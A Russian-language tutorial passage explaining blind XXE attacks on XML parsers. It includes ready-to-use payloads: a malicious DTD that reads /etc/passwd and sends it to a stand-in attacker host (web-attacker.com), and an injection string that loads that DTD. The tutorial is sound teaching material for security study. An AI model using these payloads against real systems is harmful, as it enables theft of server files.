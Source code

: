```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

Ссылки на сущности параметров:

```xml
%myparameterentity;
```

Например:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

Эта полезная нагрузка XXE объявляет сущность параметра XML под названием `xxe`, а затем использует эту сущность в DTD. Это вызовет поиск DNS и HTTP-запрос к домену атакующего, что подтвердит успешность атаки. 

### Эксплуатация слепого XXE для внеполосной утечки данных

Пример вредоносного DTD для эксфильтрации содержимого файла `/etc/passwd` выглядит следующим образом:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

_Unicode Hex Character Code:_

```xml
&#x25; == %
```

Этот DTD выполняет следующие действия:
- Определяет сущность параметра XML под названием `file`, содержащий содержимое файла `/etc/passwd`.
- Определяет сущность параметра XML под названием `eval`, содержащий динамическое объявление другой сущности `exfiltrate`. Сущность `exfiltrate` будет оценена при выполнении HTTP-запроса к веб-серверу злоумышленника, содержащего значение сущности `file` в строке запроса URL.
- Использует сущность `eval`, которая вызывает динамическое объявление сущности `exfiltrate`.
- Использует сущность `exfiltrate`, так что ее значение оценивается при запросе указанного URL.

Например, злоумышленник может разместить вредоносный DTD по следующему URL:

```
http://web-attacker.com/malicious.dtd
```

Наконец, злоумышленник должен передать следующую XXE полезную нагрузку в уязвимое приложение:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```

Эта техника может не работать с некоторым содержимым файлов, включая символы новой строки, содержащиеся в файле `/etc/passwd`. Это связано с тем, что некоторые анализаторы XML получают URL-адрес в определении внешней сущности с помощью API, который проверяет символы, разрешенные для появления в URL-адресе. В этой ситуации можно использовать протокол FTP вместо HTTP. Иногда невозможно передать данные, содержащие символы новой строки, поэтому вместо них можно использовать такой файл, как `/etc/hostname`.
